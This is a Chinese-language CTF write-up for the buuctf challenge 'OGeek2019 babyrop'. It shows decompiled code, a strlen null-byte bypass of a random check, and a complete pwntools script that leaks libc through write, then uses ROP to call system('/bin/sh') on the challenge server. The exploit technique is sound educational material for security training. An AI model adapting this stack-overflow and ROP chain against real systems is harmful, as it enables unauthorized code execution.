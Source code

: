 ```yaml
---
author: 
  name: Zephyr
title: OGeek2019 babyrop
date: 2022-3-21 11:20:02
permalink: /pages/2e1547494524d183
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# OGeek2019 babyrop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/OGeek2019_babyrop/pwn'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main()
{
  int buf; // [esp+4h] [ebp-14h]
  char v2; // [esp+Bh] [ebp-Dh]
  int fd; // [esp+Ch] [ebp-Ch]

  sub_80486BB();
  fd = open("/dev/urandom", 0);
  if ( fd > 0 )
    read(fd, &buf, 4u);
  v2 = sub_804871F(buf);
  sub_80487D0(v2);
  return 0;
}
```

sub_804871F函数如下

```c
int __cdecl sub_804871F(int a1)
{
  size_t v1; // eax
  char s; // [esp+Ch] [ebp-4Ch]
  char buf[7]; // [esp+2Ch] [ebp-2Ch]
  unsigned __int8 v5; // [esp+33h] [ebp-25h]
  ssize_t v6; // [esp+4Ch] [ebp-Ch]

  memset(&s, 0, 0x20u);
  memset(buf, 0, 0x20u);
  sprintf(&s, "%ld", a1);
  v6 = read(0, buf, 0x20u);
  buf[v6 - 1] = 0;
  v1 = strlen(buf);
  if ( strncmp(buf, &s, v1) )
    exit(0);
  write(1, "Correct\n", 8u);
  return v5;
}
```

sub_80487D0函数如下

```c
ssize_t __cdecl sub_80487D0(char a1)
{
  ssize_t result; // eax
  char buf; // [esp+11h] [ebp-E7h]

  if ( a1 == 127 )
    result = read(0, &buf, 0xC8u);
  else
    result = read(0, &buf, a1);
  return result;
}
```

部分函数表如下

![OGeek2019_babyrop_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/OGeek2019_babyrop_1.png)

Gadget

```shell
ROPgadget --binary pwn --string "/bin/sh\x00"                             
Strings information
============================================================
```

## 思路分析

1. 程序分析:
   - 程度首先获取一个随机数，将该值用strlen函数与输入数据进行对比，不同则会终止程序，若相同则将v5返回，作为sub_80487D0函数的参数，若v5=127，则可以为buf写入0xC8字节数据，否则写入v5长度的数据
1. 目前信息：
   - plt表内没有system
   - 程序本体内并没有/bin/sh字符串
   - No PIE
3. 思路
   - 若能控制sub_80487D0函数的实参v2就可以实现超长字符写入造成栈溢出覆盖返回地址
   - v2是sub_804871F函数的返回值，在该函数内的输入点buf处是可以写入0x20字节的数据，虽然不够直接覆盖返回地址，但还是可以实现溢出修改上方v5即最后返回的值
   - 但要成功返回v5还要绕过与随机字符串比较的的过程，这里通过strlen函数遇到`\0`即终止并返回的特性，构造首位是`\0`的特殊输入数据绕过对比失败后的程序退出
   - 因该题plt表内并无system函数，也无/bin/sh字符串，所以应该首先泄漏libc和对应函数地址，利用泄漏到的信息，二次溢出获得shell

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/OGeek2019_babyrop/pwn'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 29092)
elf = ELF(pwnfile)
payload = flat(['\0'*7, 255])
# 前置\0绕过推出，v5覆盖为255
io.sendline(payload)
io.recvuntil("Correct\n")
padding = 0xe7+4
main_addr = 0x8048825
write_plt = 0x8048578
write_got = 0x8049FEC
payload = flat(['a'*padding, write_plt, main_addr, 1, write_got, 4])
io.sendline(payload)
leak_write_addr = u32(io.recv(4))  # write真实地址
libc = LibcSearcher('write', leak_write_addr)
# 泄漏libc
libcbase = leak_write_addr-libc.dump('write')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
payload = flat(['\0'*7, 255])
io.sendline(payload)
io.recvuntil("Correct\n")
payload = flat(['a'*padding, system_addr, 0xdeadbeef, bin_sh_addr])
# 获得shell
io.send(payload)
io.interactive()
```